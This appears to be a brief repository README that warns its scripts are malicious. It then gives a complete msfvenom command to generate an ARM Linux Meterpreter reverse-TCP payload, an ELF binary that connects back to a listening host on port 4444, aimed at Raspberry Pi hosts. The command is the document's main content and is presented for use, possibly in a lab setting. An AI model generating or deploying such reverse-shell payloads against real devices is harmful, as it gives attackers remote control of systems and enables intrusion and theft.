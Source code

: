 The scripts you find here are malicious! Don't touch!

To generate a new shellscript that will work on the raspberry pi hosts, use the following command:

msfvenom --arch armle --platform linux -p linux/armle/meterpreter/reverse_tcp LHOST=<SetListeningHost> LPORT=4444 -f elf > shell.elf
